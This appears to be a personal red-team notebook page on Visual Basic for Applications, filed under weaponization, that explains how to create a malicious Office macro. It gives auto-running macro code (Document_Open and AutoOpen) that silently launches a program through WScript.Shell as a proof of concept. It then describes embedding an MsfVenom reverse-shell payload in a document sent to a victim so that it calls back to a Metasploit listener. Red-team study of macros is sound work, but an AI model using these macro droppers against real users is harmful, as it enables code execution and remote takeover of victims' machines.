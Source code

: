 ```yaml
---
creation date: May 1st 2023
last modified date: May 1st 2023
aliases: [VBA]
tags: #📕
---
```


Primary Categories: [[01 - Pentest]] - [[01 - Red Team]]
Secondary Categories:  [[02 - Weaponization]]
Links: [[Windows]] - [[Scripting]] - [[Microsoft Word]] - [[PowerPoint]] - [[Excel]] - [[VBScript]]
Search Tag: #📕  

# [[Visual Basic for Application]]  
___

## Description:  
Microsoft's programming language for their eco system (PowerPoint, Excel, Word, etc...). Allows for automating of nearly every keyboard and mouse interaction within their eco system apps. These are referred to as **Macros** within the apps.

One of the main functions of VBA is to access the Windows [API](https://en.wikipedia.org/wiki/Windows_API)

## Creating a Malicious Macro
1. Open Macro tool inside desired document in Windows eco system.
![[Pasted image 20230501234246.png]]
2. Enter a name for our new Macro and the hit **Create**
3. This will open VBA's IDE
4. Last note is to make sure that the file is saved in a format that has Macros enabled and has correct file extension such as `.doc`, `docm`

### Hello World!
```VBScript
Sub Document_Open()
    Hello_World
End Sub

Sub AutoOpen()
    Hello_World
End Sub

Sub Hello_World()
    MsgBox ("Hello World!")
End Sub
```

### PoC
#### Open an app
```VBScript
Sub Document_Open()
    PoC
End Sub

Sub AutoOpen()
    PoC
End Sub

Sub PoC()
    Dim payload As String
    payload = "calc.exe"
    CreateObject("WScript.Shell").Run payload, 0
End Sub
```
- Here we start by using `Document_Open()` & `AutoOpen()` to run our payload when the document with enabled macros is opened
- Breaking the PoC payload down:
	- `Dim` = We are declaring a variable of `payload` and telling it that it will be a `String`
	- `payload` = Storing the name of the app we want to spawn
	- `CreateObject()` = This tells the system to use [[Windows Scripting Host]] in a shell and run our `payload`

#### Reverse Shell
1. For this we will use [[MsfVenom]] to generate our payload:
![[MsfVenom#Reverse for VBA]]
2. Once we have this add it to the file on the victim or create a document on our machine and add it as a macro before uploading it to the victim
3. This will call back to the [[Metasploit]] Listener once opened

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: May 1st 2023 (10:05 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
